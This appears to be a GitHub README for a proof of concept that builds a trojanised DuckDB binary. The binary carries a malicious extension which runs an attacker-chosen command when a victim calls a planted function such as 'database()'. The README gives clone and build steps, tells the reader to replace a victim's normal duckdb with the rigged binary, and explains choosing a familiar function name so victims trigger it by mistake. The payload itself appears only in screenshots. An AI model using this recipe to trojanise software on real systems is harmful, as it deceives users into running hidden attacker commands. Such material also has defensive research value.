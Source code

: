 # Install vcpkg
```shell
git clone https://github.com/Microsoft/vcpkg.git
./vcpkg/bootstrap-vcpkg.sh
export VCPKG_TOOLCHAIN_PATH=`pwd`/vcpkg/scripts/buildsystems/vcpkg.cmake
```

## Clone the malicious extension
```shell
git clone --recurse-submodules https://github.com/Tu0Laj1/database_test.git
cd database_test
```

### Modify file
Modify src/quark_extension.cpp,modify the file content to a custom malicious command,and modify the extension function name
```sh
vim src/quack_extension.cpp
```
<img width="422" alt="企业微信截图_17032404145324" src="https://github.com/Tu0Laj1/database_test/assets/154296962/c727d9db-3acd-4bde-b92b-cc0c7ce07bcb">

### Build the malicious extension
Now to build the malicious extension, run:
```sh
make
```

## Running the malicious duckdb
/database_test/build/release/duckdb, a malicious duckdb containing malicious extension programs, can be copied and run on any machine. Attackers can replace the victim's normal duckdb with this malicious duckdb
```sh
cd database_test
./build/release/duckdb
```

### Running the malicious extension
When the victim runs a malicious duckdb and the executed SQL statement contains the function name defined by the attacker, the malicious command will be executed. (Why did I choose 'database'? Because 'database' is a function included in many other databases, but it is not available in duckdb, so the probability of victims mistakenly triggering malicious commands will be increased.)
```sh
select database();
```
<img width="465" alt="企业微信截图_1703465596446" src="https://github.com/Tu0Laj1/database_test/assets/154296962/3c1ecb9c-f531-4355-b8e4-be908ac19179">
Of course, when you place this duckdb containing malicious extensions on a Linux host to run, you may need to install additional dependency components, such as GLIBC, etc
